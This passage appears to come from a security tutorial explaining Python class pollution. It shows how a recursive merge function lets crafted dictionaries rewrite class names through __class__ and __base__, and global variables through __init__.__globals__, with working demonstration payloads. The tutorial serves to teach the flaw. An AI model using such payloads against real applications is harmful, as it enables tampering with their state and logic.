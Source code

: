 ```py
    "__class__":{
        "__base__":{
            "__qualname__":"Polluted"
            }
        }
    }


hr_emp = HR()
merge(emp_info, hr_emp)

print(HR)
print(Employee)

#> <class '__main__.HR'>
#> <class '__main__.Polluted'>
```

The same approach can be followed if we want to pollute any parent class (that isn’t one of the immutable types) in the inheritance chain, by chaining `__base__` together such as `__base__.__base__`, `__base__.__base__.__base__` and so on. 

Moreover, we can ***leverage the `__globals__` attribute to overwrite ANY variables in the code.***

Based on Python [documentation](https://docs.python.org/3/reference/datamodel.html) `__globals__` is “A reference to the dictionary that holds the function’s global variables — the global namespace of the module in which the function was defined.”

To access items of `__globals__` attribute the merge function must be using `__getitem__` as previously mentioned.

`__globals__` attribute is accessible from any of the defined methods of the instance we control, such as `__init__`. We don’t have to use `__init__` in specific, we can use any defined method of that instance to access `__globals__` , however, most probably we will find `__init__` method on every class since this is the class constructor. We cannot use built-in methods inherited from the `object` class, such as `__str__` unless they were overridden. Keep in mind that `<instance>.__init__`, `<instance>.__class__.__init__` and `<class>.__init__` are all the same and point to the same class constructor.

```py
def merge(src, dst):
    # Recursive merge function
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)

class User:
    def __init__(self):
        pass

class NotAccessibleClass: pass
not_accessible_variable = 'Hello'

merge({'__class__':{'__init__':{'__globals__':{'not_accessible_variable':'Polluted variable','NotAccessibleClass':{'__qualname__':'PollutedClass'}}}}}, User())

print(not_accessible_variable)
print(NotAccessibleClass)

```